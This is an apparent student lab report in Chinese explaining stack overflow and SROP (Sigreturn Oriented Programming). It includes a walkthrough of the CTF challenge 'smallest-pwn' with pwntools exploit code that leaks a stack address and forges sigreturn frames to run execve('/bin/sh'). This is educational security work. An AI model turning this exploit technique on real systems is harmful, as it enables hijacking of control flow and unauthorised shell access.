




# SROP报告

---

### 1. 软件漏洞原理
#### 1.1 缓冲区溢出漏洞
程序在运行前会预留一些用于临时存储I/O数据的内存空间，像这样的内存空间被称为缓冲区。如果计算机向缓冲区内填充了超过缓冲区本身容量的数据，将会导致合法数据被覆盖，此时发生缓冲区溢出。一般而言，为了确保程序的安全性，需要在程序进行复制、赋值等操作时检查数据的长度，保证其输入不超过缓冲区的最大长度，但有时某些程序没有做到这一点，就可能会留下缓冲区溢出攻击的漏洞。

图灵机的实现方式有冯·诺依曼机和lambda演算机，如今绝大多数运行程序的终端都属于前者，这种机器的特点是将机器底层信息分为数据和指令两种，但这两种信息都存储在同一区域，机器对此不作区分。这种情况下，人类看来的数据如果非法占据了指令位置，计算机将会执行非法数据表征的指令。

缓冲区溢出可分为栈溢出和堆溢出两种，本实验进行的是栈溢出攻击。

#### 1.2 栈溢出原理
栈是一种基本的数据结构，从这个层次理解，它是一种先进后出的线性表，即所谓的“FILO”原则。程序运行时，栈中会保存函数需要的重要信息，并在函数执行结束后自动释放，这个过程由编译器自动完成。

当程序运行时，先将返回地址压栈，再压入ebp地址，随后开始读取变量。由于运行过程中栈是向低地址方向生长的，而变量在栈中向高地址方向生长，因此当栈中变量超出缓冲区大小时，可能会覆盖栈中高地址区的返回地址，导致函数返回时产生错误。

---

### 2. SROP原理
#### 2.1 软中断信号
SROP全称为Sigreturn Oriented Programming，其中的sigreturn是一个系统调用，当linux系统发生软中断时会调用它。（图示直接来源为ctf-wiki）


当程序发起一次signal时，系统将会进行以下工作：
>1. 将该进程暂时挂起，进入内核态；
>2. 内核保留该进程上下文，跳转到之前注册好的signal handle中处理signal；
>3. Signal handle执行结束，返回内核态；
>4. 内核为程序返回之前保留的上下文，恢复进程的执行。

#### 2.2 原理及利用方法
内核为进程保留相应的上下文的方法主要是：将所有寄存器压入栈中，以及压入 signal 信息，以及指向sigreturn的系统调用地址，此时从栈底到栈顶信息依次为stack→ucontext→siginfo→→sigreturn。当signal handler执行完成后，系统就会执行sigreturn系统调用来恢复上下文，主要是将之前压入的寄存器的内容还原回对应的寄存器，然后恢复进程的执行。

将ucontext和siginfo这两段合称为Signal Frame，事实上，系统并不会记录某个signal信号对应的Sinal Frame。当系统执行sigreturn系统调用时，此时的Signal Frame可以不是此前内核为进程保存的Signal Frame。由于Signal Frame被保存在用户地址空间中，攻击者可以伪造Signal Frame，达到劫持控制流的目的。

---

### 3. 实验
#### 3.1 实验环境
>+ 题目：360春秋杯smallest-pwn
>+ 虚拟机：VMware Workstation Pro
>+ 操作系统：Kali-linux-2023.3-amd64
>+ 编程语言：python 2.7.18
>+ 工具：IDA pro、gdb-peda、pwntools

由于本实验使用python2版本，可以切换成kali自带的python2来执行。


#### 3.2 实验过程
##### 3.2.1 检查保护
使用checksec命令检查目标程序保护，可以发现程序主要开启了NX保护。NX即No-eXecute（不可执行）防护，其基本原理是将数据所在内存页标识为不可执行，ROP攻击是一种常用的绕过NX保护的方法，考虑对目标程序实行ROP攻击。


##### 3.2.2 程序反编译
在IDA pro中打开目标程序，可以看到程序是用asm语言写成的，代码很短，符合程序名称“smallest”。


可以看到，源asm语言首先对rax处理器进行异或操作，得到操作数为0，查表可知，该操作数为read读操作。

| 系统调用 | 调用号	| 函数原型 |
| :----: | :----: | :----: |
| read | 0 | read(int fd, void *buf, size_t count) |
| write	| 1	| write(int fd, const void *buf, size_t count) |
| sigreturn | 15 | int sigreturn(...) |
| execve | 59 | execve(const char *filename, char *const argv[],char *const envp[]) |

程序随后将三个数据分别读入三个寄存器之中，接着进行syscall系统调用，也就是读操作。所以整个程序就是向栈顶读入0x400字节的内容。

##### 3.2.3 构造exp程序
首先，发送start_addr的地址，因为是写在栈顶的，所以就是read的返回地址，程序会返回到start_addr。
``````python
start_addr = 0x00000000004000B0
payload = p64(start_addr) * 3
sh.send(payload)
``````

返回后再次调用read函数的时候发送一个字节，由于read函数会把读入的字节数放到rax，所以rax等于1，同时会把rsp的后一位写为\xB3,这样返回地址就是异或rax的下一行操作4000B3，不会执行将rax置为0的操作，rax保持为1，查表可知为write操作。
``````python
sh.send('\xb3')
``````

调用write函数，输出栈上0x400长度的内容，由于此前输入了3个start_addr，因此取前八个字节之后的内容，这就是泄露出来的栈的地址。
``````python
stack_addr = u64(sh.recv()[8:16])
``````

使用pwntools中的工具构造，相当于read(0,stack_addr,0x400),同时返回地址为start_addr。
``````python
read = SigreturnFrame()
read.rax = constants.SYS_read
read.rdi = 0
read.rsi = stack_addr
read.rdx = 0x400
read.rsp = stack_addr
read.rip = syscall_ret
``````

发送start_addr和syscall_ret，以及上文构造的SigreturnFrame。
``````python
read_frame_payload  = p64(start_addr) + p64(syscall_ret) + str(read)
``````

调用read函数，等待接收。
``````python
sh.send(read_frame_payload)
``````

为了防止影响程序，发送payload中截取的15个字节数据，read操作会使得rax置为15，查表可知对应为sigreturn操作。
``````python
sh.send(read_frame_payload[8:8+15])
``````

构造，返回等待输入。
``````python
execve = SigreturnFrame()
execve.rax = constants.SYS_execve
execve.rdi = stack_addr + 0x120
execve.rsi = 0x0
execve.rdx = 0x0
execve.rsp = stack_addr
execve.rip = syscall_ret
execv_frame_payload = p64(start_addr) + p64(syscall_ret) + str(execve)
``````

添加‘\x00’后达到120长度，添加‘/bin/sh’。
``````python
execv_frame_payload_all=execv_frame_payload+(0x120-len(execv_frame_payload ))*'\x00'+'/bin/sh\x00'
``````

``````python
sh.send(execv_frame_payload_all)
sh.send(execv_frame_payload_all[8:8+15])
sh.interactive()
``````

---

### 4. 其他

目前做的几个ROP的实验，目的都是通过各种方法使得系统执行攻击者想要其执行的程序段，比如前几个实验的使缓冲区数据溢出到执行代码段。本次实验作为所谓的高级ROP，原理与前几个实验相似，只是用到了一个更底层的sigreturn机制，这是由Signal Frame储存在用户地址空间和系统不对其内容进行检查造成的，最终目的还是把系统执行导向到恶意输入的代码段之中。
